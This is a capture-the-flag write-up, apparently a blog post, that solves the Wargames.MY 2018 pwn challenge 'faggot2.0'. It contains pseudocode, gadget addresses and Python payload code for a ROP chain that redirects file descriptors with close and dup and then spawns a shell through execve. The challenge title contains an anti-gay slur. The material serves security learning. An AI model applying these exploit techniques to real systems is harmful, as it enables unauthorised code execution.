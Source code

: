 ```yaml
---
layout: post
title: Wargames.MY 2018 - faggot2.0 (pwn) - ROP with unknown file descriptors
---
```


> [challenge][file]

It seems that no one solved this challenge during the competition. Due to the large amount of challenges, I also did not manage to work on this challenge, but solved it after the competition, so here's my writeup.

## Static Analysis
The program was rather straightforward, running as a fork server with the following pseudocode.

```c
int main() {
    int connectionfd;

    while(1) {
        int socketfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
        setsockopt(socketfd, SOL_SOCKET, SO_REUSEADDR, [1], 4);
        bind(socketfd, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 16);
        listen(socketfd, 5);
        connectionfd = accept(socketfd, {sa_family=AF_INET, sin_port=htons(51320), sin_addr=inet_addr("127.0.0.1")}, [16]));

        if (!fork())    // if fork() == 0, then this is the child, then break out of listening loop
            break;
    }

    // ran by child process
    close(socketfd);

    char buf[15];
    read(connectionfd, buf, 0xf);
    int nbytes = atoi(buf);

    char biggerbuf[0x80];
    read(connectionfd, biggerbuf, nbytes);
}
```

*If you are wondering how to get the enums for the socket API functions easily, I just ran `strace` on the challenge binary, which will show all system calls being called by the process.*

As we can see, we can choose how many bytes we want to read. Immediate thought is to use [ROP](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). A good place to learn ROP would be the [ROP Emporium](https://ropemporium.com).

`checksec ./challenge`
```
[*] '/root/ctfs/wargamesmy/faggot2/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

CANARY and PIE were not enabled for this challenge, which makes things easier.

## Exploitation
As the challenge binary itself implements the server, the best way to debug my exploit is by attaching GDB to the child process (aka the client) every time I want to test it.

For the sake of convenience, my terminal is set up this way.

![workenv][workenv]

The top left pane, running `strace ./challenge`, will tell me the pid of the child process, which I can attach to using GDB in the bottom left pane.

By passing in a De-Brujin pattern, we find that a padding of `152` bytes is needed until we reach the return address in the stack.

### ROP Chain
As we are given an arbitrary amount of bytes to write, there aren't really any restrictions on our ROP chain apart from the gadgets we can find.

Using [ropper](https://github.com/sashs/Ropper), I managed to find gadgets for controlling registers `rax`, `rdi`, `rsi` and `rbp`, and also to write `eax` into a memory relative to `rbp`.

```py
POP_RAX_RET = 0x4009d2
POP_RDI_RET = 0x400ba3
POP_RBP_RET = 0x400840
POP_RSI_RET = 0x400ba1
SYSCALL = 0x4009d4
MOV_DWORD = 0x4009cf  # mov dword ptr [rbp - 8], eax; pop rax; ret
```

So now it's all left to constructing the rop chain.

#### `execve`
The most convenient way is to just call `execve("/bin/sh", 0, 0)`. But we need a pointer referring to memory containing the string `"/bin/sh"`. 

Looking into the mappings of the process, we can write into this region.

```
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /root/ctfs/wargamesmy/faggot
```

With the gadgets found earlier, we can write `"/bin/sh"` into address `0x601500` 4 bytes a time using `eax`.

```py
# pop rbp, ret;  sets rbp to 0x601508
# pop rax, ret;  sets rax to "/bin\x00\x00\x00\x00", aka eax to "/bin/sh"
# mov dword ptr [rbp - 8], eax; pop rax; ret;  we can now write "/bin" into 0x601508

# now, do it again for "/sh\x00"
# skipping pop rax, ret because the previous gadget already contains it
# pop rbp, ret;
# mov dword ...

payload += p64(POP_RBP_RET) + p64(0x601508)
payload += p64(POP_RAX_RET) + "/bin\x00\x00\x00\x00"
payload += p64(MOV_DWORD) + "/sh\x00\x00\x00\x00\x00"
payload += p64(POP_RBP_RET) + p64(0x60150c)
payload += p64(MOV_DWORD) + p64(0)
```

With `"/bin/sh"` in place, we can point `rdi` to it, clear `rsi`, and set `rax` to `0x3b` with is the syscall number of `execve`. We ignore `rdx` as it was fortunately already set to 0 by the program itself before reaching here.
```py
# execve("/bin/sh", 0, 0);

payload += p64(POP_RDI_RET) + p64(0x601500)
payload += p64(POP_RSI_RET) + p64(0) + p64(0)
payload += p64(POP_RAX_RET) + p64(0x3b)
payload += p64(SYSCALL)           
```

Now we can run the send the payload and get our shell. But it doesn't work? Nothing happens. 

#### `close` and `dup`
Recall that when the server connects to our client, it uses a different file descriptor for IO instead of the standard `stdin`, `stdout` and `stderr` in 0, 1 and 2.

We need to replace 0, 1 and 2 with the file descriptor for our client. We can do that by first closing those 3 files, using the `close` syscall. Then use `dup(connectionfd)` to duplicate our client's `fd`. 

`dup` works by duplicating the information of the given file to the lowest file descriptor number possible that is not opened yet, in which case its 0, 1 and 2 which we just closed.

Similar to `execve` above, we can set our registers to replace the file descriptors.
```py
# close(0); close(1); close(2)           
payload += p64(POP_RDI_RET) + p64(0)              
payload += p64(POP_RAX_RET) + p64(3)              
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(1)
payload += p64(POP_RAX_RET) + p64(3)                                                     
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(2)                                                     
payload += p64(POP_RAX_RET) + p64(3)
payload += p64(SYSCALL)

# dup(4)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)   
```

Now we can send the payload, and get a working shell!

Not quite yet. As you can see, we are duplicating the file number 4. This is based on the assumption that no other clients are connected to the server at this point in time. This is because 0, 1 and 2 are occupied by `stdin`, `stdout` and `stderr`, 3 is occupied by `socketfd`, making 4 the lowest available file number, which is assigned to the next client that connects. If say there are 5 clients connected at this time, then we will be assigned file number 9.

Well, with the assumption that there aren't a lot of teams in this CTF, we can run this exploit a few more times if it fails.

The full exploit script can be found [here][xpl].

***

[file]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/challenge
[workenv]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/workenv.png
[xpl]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/xpl.py